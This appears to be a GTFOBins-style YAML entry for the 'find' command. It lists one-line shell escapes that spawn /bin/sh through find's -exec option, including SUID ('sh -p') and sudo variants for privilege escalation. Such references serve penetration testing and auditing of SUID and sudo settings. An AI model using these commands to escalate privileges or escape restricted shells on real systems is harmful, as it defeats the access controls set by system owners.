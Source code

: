```yaml
---
functions:
  execute-interactive:
  - code: find . -exec /bin/sh \; -quit
  suid-enabled:
  - code: "./find . -exec /bin/sh -p \\; -quit"
  sudo-enabled:
  - code: sudo find . -exec /bin/sh \; -quit
---
```

